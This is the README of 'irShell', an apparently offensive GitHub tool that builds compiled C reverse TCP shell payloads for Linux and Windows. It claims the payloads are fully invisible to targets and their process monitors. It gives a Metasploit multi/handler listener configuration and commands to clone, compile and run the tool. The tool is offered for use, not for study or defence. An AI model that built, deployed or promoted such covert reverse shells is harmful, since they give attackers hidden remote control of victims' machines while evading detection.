 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows in C. 

## About:
A simple C script that creates and compiles C payloads for reverse tcp shells that are 100% invisible not only to the target but the target's resource/process monitors. Simple MSFconsole handlers/listeners are then used for callbacks.

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && chmod +x irShell
```

## Usage:

```
sudo ./irShell
```
